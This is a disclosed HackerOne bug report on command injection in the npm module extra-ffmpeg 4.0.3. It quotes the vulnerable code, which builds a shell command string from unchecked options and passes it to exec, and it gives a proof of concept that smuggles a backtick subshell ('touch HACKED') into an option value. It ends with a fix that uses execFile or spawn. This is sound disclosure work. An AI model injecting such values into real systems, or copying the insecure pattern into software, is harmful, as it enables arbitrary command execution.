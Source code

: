 # [extra-ffmpeg] Command Injection via insecure command formatting

## Report Details
- **Report ID**: 863944
- **URL**: https://hackerone.com/reports/863944
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-05-01T11:15:06.209Z
- **Disclosed**: 2020-08-20T09:08:41.263Z

## Reporter
- **Username**: d3lla
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `Command Injection` issue in the `extra-ffmpeg` module.
It allows to execute arbitrary commands on the victim's PC.

# Module

**module name:** `extra-ffmpeg`
**version:** `4.0.3`
**npm page:** `https://www.npmjs.com/package/extra-ffmpeg`

## Module Description

Decode, encode, transcode, mux, demux, stream, filter, and play media through machine (via "ffmpeg").

## Module Stats

[99] weekly downloads

# Vulnerability

## Vulnerability Description

The issue occurs because a user input parameter is used inside a command that is executed without any check. 

Here's the code which causes the issue:

```javascript
// https://github.com/nodef/extra-ffmpeg/blob/master/index.js#L19
const cp = require('child_process');


// Global variables.
const STDIO = [0, 1, 2];


 // Generate command for ffmpeg.
 function command(os) {
  var z = 'ffmpeg';
  var os = os||[];
  for(var o of os) {
    var o = o||{};
    for(var k in o) {
      if(o[k]==null) continue;
      if(k==='stdio') continue;
      if(k==='o' || k==='outfile') z += ` "${o[k]}"`;
      else if(typeof o[k]==='boolean') z += o[k]? ` -${k}`:'';
      else z += ` -${k} ${JSON.stringify(o[k])}`;  // <-- injection
    }
  }
  return z;
};

/**
 * Invoke "ffmpeg" synchronously.
 * @param {object} os ffmpeg options.
 */
function sync(os) {
  var stdio = os.stdio===undefined? STDIO:os.stdio;
  return cp.execSync(command(os), {stdio});
};

/**
 * Invoke "ffmpeg" asynchronously.
 * @param {object} os ffmpeg options.
 */
function ffmpeg(os) {
  var stdio = os.stdio===undefined? STDIO:os.stdio;
  return new Promise((fres, frej) => cp.exec(command(os), {stdio}, (err, stdout, stderr) => {
    if(err) frej(err);
    else fres({stdout, stderr});
  }));
};
ffmpeg.sync = sync;
module.exports = ffmpeg;
```
The `os` parameter contains the option parameters for the command `ffmpeg`. 
The final command that is passed to the `child_process.exec` function is built formatting the options value without any check.


## Steps To Reproduce:
- create a directory for testing
    - `mkdir poc`
    - `cd poc/`

- install `extra-ffmpeg` module:
    -  `npm i extra-ffmpeg`
- create the following PoC JavaScript file (`poc.js`):

```javascript
const ffmpeg = require('extra-ffmpeg');
ffmpeg.sync([{y: true}, {i: '`touch HACKED`'}, {acodec: 'copy', o: 'aud.mp3'}]);

```
- make sure that the `HACKED` file does not exist:
    - `ls`
- execute the `poc.js` file:
    - `node poc.js`
- the `HACKED` file is created:
    - `ls`
    
{F810821}


## Patch
Do not concatenate/format commands using insecure user's input. Always check and sanitize it. 
In my opinion, it's better to use [`child_process.execFile`](https://nodejs.org/api/child_process.html#child_process_child_process_execfile_file_args_options_callback) or [`child_process.spawn`](https://nodejs.org/api/child_process.html#child_process_child_process_spawn_command_args_options) functions instead of `child_process.exec`.

## Supporting Material/References:

- OPERATING SYSTEM VERSION: Ubuntu 18.04.4 LTS
- NODEJS VERSION: v13.13.0
- NPM VERSION: 6.14.4

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 


Thank you for your time.

best regards,

d3lla

## Impact

Command Injection on `extra-ffmpeg` module via insecure command formatting.

## Attachments
- poc_extra-ffmpeg.mov
